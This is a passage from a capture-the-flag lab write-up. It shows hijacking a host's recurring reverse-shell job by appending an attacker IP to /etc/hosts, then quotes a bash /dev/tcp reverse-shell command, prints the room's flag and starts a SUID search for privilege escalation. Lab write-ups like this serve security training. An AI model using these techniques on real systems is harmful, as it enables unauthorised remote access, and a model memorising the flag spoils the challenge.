 So, redrules.thm resolves to 192.168.0.1. Trying to edit the file with an editor like Nano or Vim we get the error, that there is a problem with the history file.

```abap
blue@red:/tmp$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 red
192.168.0.1 redrules.thm

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouter
blue@red:/tmp$ 
```

Next, we try to set up a listener on port 9001, and rewrite the host file by resolving `redrules.thm` to our attacker's machine IP

we append the line `<MACHINE_IP> redrules.thm` to the `/etc/hosts` file using tee. First, it was easily overseen, but `/usr/bin/chattr -a /etc/hosts` and `/usr/bin/chattr +a /etc/hosts`are being called in the background regularly. So the "append-only" attribute (a) to the /etc/hosts file on a Linux system is being added and removed. So the only way of manipulating the /etc/hosts is to append the needed data to it.

```abap
echo '10.201.16.159 redrules.thm' >> /etc/hosts
```

```abap
blue@red:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 red
192.168.0.1 redrules.thm

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouter
10.201.16.159 redrules.thm
```

After waiting some time, the command `bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 &` gets executed again, then we should have another shell. It took me a couple tries and a little bit but I promise it works.

Flag

> THM{Y0u\_won't\_mak3\_IT\_furTH3r\_th\@n\_th1S}

After getting the flag lets esculate the privileges

```abap
red@red:~$ find / -perm -4000 -type f -ls 2>/dev/null
   418507     32 -rwsr-xr-x   1 root     root        31032 Aug 14  2022 /home/red/.git/pkexec
```
